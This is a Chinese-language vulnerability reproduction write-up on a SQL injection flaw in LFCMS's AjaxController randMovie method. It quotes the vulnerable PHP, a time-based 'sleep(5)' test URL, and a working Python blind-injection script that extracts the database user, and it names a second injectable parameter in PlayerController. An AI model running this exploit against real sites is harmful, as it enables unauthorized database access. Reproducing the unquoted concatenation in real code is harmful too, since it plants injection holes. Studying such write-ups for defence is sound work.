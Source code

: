 LFCMS AjaxController.class.php 前台sql注入漏洞
==============================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

漏洞起始点位于`/Application/Home/Controller/AjaxController.class.php`文件中的`randMovie`方法，代码如下

![1.png](./.resource/LFCMSAjaxController.class.php前台sql注入漏洞/media/rId24.png)

第七行代码中调用了`Ajax`模型中的`randMovie`方法，同时`limit`和`category`是我们输入的可控的参数，跟进`randMovie`方法

    public function randMovie($limit=6,$category='') {
        if($category) {
            $type='and category='.$category;
        }
        $prefix=C('DB_PREFIX');
        $mlist=M()->query('SELECT * FROM `'.$prefix.'movie` AS t1 JOIN (SELECT ROUND(RAND() * ((SELECT MAX(id) FROM `'.$prefix.'movie`)-(SELECT MIN(id) FROM `'.$prefix.'movie`))+(SELECT MIN(id) FROM `'.$prefix.'movie`)) AS idx) AS t2 WHERE t1.id >= t2.idx '.$type.' ORDER BY t1.id LIMIT '.$limit);
        foreach($mlist as $key=>$value) {
            $list[$key]=D('Tag')->movieChange($value,'movie');
        }
        return $list;
    }

在这里注意到`$type`与`$limit`在`sql`语句执行时均没有被单引号包裹，直接拼接到语句当中，这里就存在了sql注入的可能，首先我们在`movie`表里放一条数据，看一下正常执行时sql语句是如何执行的

![2.png](./.resource/LFCMSAjaxController.class.php前台sql注入漏洞/media/rId25.png)

查看数据库日志可以得到如下`sql`语句

    SELECT * FROM `lf_movie` AS t1 JOIN (SELECT ROUND(RAND() * ((SELECT MAX(id) FROM `lf_movie`)-(SELECT MIN(id) FROM `lf_movie`))+(SELECT MIN(id) FROM `lf_movie`)) AS idx) AS t2 WHERE t1.id >= t2.idx and category=2 ORDER BY t1.id LIMIT 1

接着来尝试下进行注入，测试链接如下

    http://www.0-sec.org/index.php/Ajax/randMovie?limit=1&category=2 and sleep(5)

页面确实延迟了5秒，那么接着看一下后端数据库的语句

    SELECT * FROM `lf_movie` AS t1 JOIN (SELECT ROUND(RAND() * ((SELECT MAX(id) FROM `lf_movie`)-(SELECT MIN(id) FROM `lf_movie`))+(SELECT MIN(id) FROM `lf_movie`)) AS idx) AS t2 WHERE t1.id >= t2.idx and category=2 and sleep(5) ORDER BY t1.id LIMIT 1

基本可以判断该处存在着可用的注入点，接下来编写脚本跑一下数据库用户名试试

    import requests
    url = 'http://www.0-sec.org/index.php/Ajax/randMovie?limit=1&category=2 and '
    s = requests.session()
    result = ""
    for i in range(1,50):
        print('==========================')
        for j in range(32,127):
            payload = "if((ascii(substr((select user()),{},1))={}),sleep(5),0)".format(i,j)
            temp = url+payload
            try:
                s.get(temp,timeout=5)
            except:
                result+= chr(j)
                print(result)
                break

![3.png](./.resource/LFCMSAjaxController.class.php前台sql注入漏洞/media/rId26.png)

相同原理的利用点同样不止一个，如`/Application/Home/Controller/PlayerController.class.php`文件中的`down`方法调用了模型`movie`中的`getPlayerUrl`方法，该方法的`pid`参数同样可以注入

参考链接
--------

> https://xz.aliyun.com/t/7844
